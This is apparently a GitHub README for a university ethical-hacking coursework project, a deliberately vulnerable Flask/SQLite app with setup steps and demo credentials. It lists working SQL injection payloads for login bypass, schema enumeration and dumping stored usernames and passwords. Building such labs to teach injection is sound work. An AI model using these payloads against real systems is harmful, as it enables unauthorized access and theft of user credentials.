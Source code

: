 # F20AN-CW1  

### SQL Injection Project – Ethical Hacking Coursework  

This project demonstrates SQL injection vulnerabilities as part of an ethical hacking course.  

## Contributors  
- Aryan R  
- Patson D  
- Abdirahim W  

## Setup & Execution  

1. **Install Dependencies**  
   Ensure you have a Python environment set up, then install the required dependencies:  
   ```bash
   pip install -r requirements.txt 
   ```

2. **Set Up the Database**  
Navigate to the 'flask app' directory and run:
    ```bash
   python setupDatabase.py
   ```
   The following output should be generated during its first execution:
   ```bash
    Admin user and test user created.

    admin creds: 
            u:admin
            p:dubai2020!
    test user creds: 
            u:patson
            p:patson123

    Database setup complete.
   ```
   This initializes the SQL database.

3. **Run the Application**  
Start the Flask app: 
    ```bash
    python myApp.py
    ```
    Then, open your browser and go to:  
    http://127.0.0.1:5000/

4. **Example Exploits (for SQLite):**

   - **Bypass login with comment**
     ```
     admin'-- 
     ```

   - **Check if injection is possible**
     ```
     ' UNION SELECT 1,2,3,4,5; --
     ```

   - **Get SQLite version**
     ```
     ' UNION SELECT sqlite_version(),2,3,4,5; --
     ```

   - **Show tables**
     ```
     ' UNION SELECT name, type, 3,4,5 FROM sqlite_master; --
     ```

   - **Show SQL query with table info**
     ```
     ' UNION SELECT sql, 2,3,4,5 FROM sqlite_master WHERE type='table' AND name='users'; --
     ```

   - **Dump all users**
     ```
     %' UNION SELECT username, password, 1, 2, 3 FROM users; --
     ```

   - **List all tables and SQL schema**
     ```
     ' UNION SELECT type, name, tbl_name, rootpage, sql FROM sqlite_master; --
     ```

---
This project is intended for the f20an coursework.